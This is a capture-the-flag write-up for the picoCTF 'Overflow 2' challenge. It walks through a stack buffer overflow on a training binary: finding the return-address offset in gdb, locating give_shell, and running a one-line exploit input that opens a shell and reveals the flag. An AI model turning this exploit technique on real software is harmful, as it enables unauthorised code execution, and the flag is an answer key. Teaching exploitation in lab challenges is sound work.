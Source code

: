 ## Overflow 2 - 70 (Binary Exploitation) ##
#### Writeup by Oksisane

### Problem ###

This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.html), and the source can be found [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.c).

### Hint ###

How can you run the give_shell function?

## Answer ##

### Overview ###

Implement basic [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) to call `give_shell`.

### Details ###

I'm going to assume you are familiar with the basics of a buffer overflow. If not, read the write-up for [Overflow 1](overflow1.md).

Let's get started! In this problem we are going to learn how to use the basics of  [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) to control the flow of a program and call this function:
```c
/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}
```
#####What makes this vulnerability possible
When we call `vuln()`, a `return address` is pushed onto the stack. This address tells the program what to do when it is finished executing the instructions defined inside `vuln()`. In our example:
```c
int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```
The `return address` would point to `return 0;`, the next instruction after the call to `vuln`. By using the same sort of buffer overflow we did in `overflow 1` we can overflow our buffer into the memory containing the `return address` (the register that stores this is called `eip`). Then we can change the value of the return address to whatever we want (which will be the start of the `give_shell()` function in this case). Once the program is finished executing `vuln()` it will read our fake return address and jump to our shell!

Before we are finished we need a few pieces of information to actually execute the exploit. The first thing we need to know is how far up the stack to write. We can figure this out using `gdb`, a program debuging tool. This is how you start gdb in the shell:
```bash
pico89244@shell:~$ cd /home/overflow2/
pico89244@shell:/home/overflow2$ gdb overflow2
GNU gdb (Ubuntu 7.7-0ubuntu3.1) 7.7
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from overflow2...(no debugging symbols found)...done.
(gdb)
```
Next, we need to set the input to our program. To do this we type:
```bash
set args `python -c 'print "A"*30'`
```
Finally, we have to run the program in gdb. To do this we simply type `run`. You should see this output:
```bash
(gdb) set args `python -c 'print "A"*30'`
(gdb) run
Starting program: /home/overflow2/overflow2 `python -c 'print "A"*30'`

Program received signal SIGSEGV, Segmentation fault.
0x08004141 in ?? ()
(gdb)
```
See the return address, `0x08004141`? The `4141` are our A values! Since we overwrote half the address with 30 values of `A` as our argument, this tells us that `eip` occupies positions 28-32 above the base of our stack, or 12 above our 16 character buffer. In other words, by writing A*28 and then 1234, 1234 would be our new return address. Now that we know how to change `eip` all we need to know is what location we should change `eip` to. Still in gdb, we can find the address of the `give_shell()` function by running
```bash
(gdb) print &give_shell
$1 = (<text variable, no debug info> *) 0x80484ad <give_shell>
(gdb)
```
Nice! We now know `0x80484ad` is the address of `give_shell`.

With these two pieces of knowledge, let's exit gdb and construct our final exploit :
```bash
./overflow2  `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
```

We print `A` 28 times to write up the stack to `eip`, then `0x80484ad`(in little edian) to tell the function to jump to `give_shell`. Let's run it:
```
pico89244@shell:/home/overflow2$ ./overflow2  `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
$ whoami
pico89244
$ cat flag.txt
controlling_%eip_feels_great
```
Sure enough, this gives us our shell and the flag!
### Flag ###

    controlling_%eip_feels_great




